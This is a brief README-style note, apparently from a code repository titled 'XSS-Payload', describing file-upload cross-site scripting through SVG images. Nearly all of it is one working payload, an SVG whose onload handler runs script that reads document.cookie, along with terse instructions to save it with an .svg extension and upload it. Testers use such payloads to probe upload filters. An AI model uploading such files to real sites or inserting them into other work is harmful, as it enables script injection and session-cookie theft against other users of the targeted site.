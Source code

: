 # XSS-Payload
File Upload XSS
file type svg
# <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)"/> 
save name file svg dont save name text This is only for images whose files are called svg

